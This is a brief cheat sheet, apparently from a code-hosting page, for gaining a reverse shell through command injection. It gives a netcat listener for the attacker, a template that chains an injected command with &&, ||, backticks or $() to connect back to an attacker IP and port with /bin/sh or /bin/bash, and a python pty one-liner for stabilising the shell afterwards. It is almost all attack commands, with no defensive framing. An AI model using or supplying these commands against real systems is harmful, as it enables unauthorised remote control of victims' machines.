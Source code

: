 

### from attacker machine
```python
nc -lnvp 80
```


### from victim machine
```python
<options> <attackerIP> <port> -e <shell>

options:
	&&, ||, `<command>`, $(command)

shell:
	/bin/sh
	/bin/bash
```



### once gain access to victim, you can have stable shell from python
```python
# type this to have somehow stable shell
python3 -c "import pty; pty.spawn('/bin/sh')"
```






























